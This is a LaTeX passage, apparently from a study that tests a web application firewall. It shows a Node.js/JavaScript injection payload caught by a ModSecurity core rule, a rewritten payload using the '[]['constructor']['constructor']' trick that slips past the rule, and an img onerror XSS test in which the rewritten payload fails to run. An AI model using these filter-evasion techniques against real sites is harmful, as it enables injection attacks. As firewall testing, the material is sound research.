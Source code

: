 When evaluating the firewall against this payload, the payload was blocked according to rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={Function() constructor blocked}, label={lst:funconblocked}]
<payload>new Function(`var s = 'secret'; promp` + `t(s, s)`)()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted by \verb|[]['constructor']['constructor']()| according to the technique mentioned under Section~\ref{sec:functionconstructor}:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

While this payload successfully bypasses the evaluted firewall configuration, when evaluating this payload using the test code snipped mentioned under Section~\ref{sec:evaluation}, it turned out to be invalid. After parsing and injecting the payload into the \acrshort{html} page according to the following statements:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
const injection = 
  JSON.parse("{\"body\":\"[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()\"}")

document.getElementById('div1').insertAdjacentHTML('afterbegin', `<img src=0 onerror=${injection.body}>`)
\end{lstlisting}

the resulting \acrshort{html} code did not execute the given statements inside the payload as expected. It resulted in the following \acrshort{html} code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="0" onerror="[]['constructor']['constructor'](`var" s="secret" ;="" promp`="" +="" `t(s,="" s)`)()="">
</div>
\end{lstlisting}

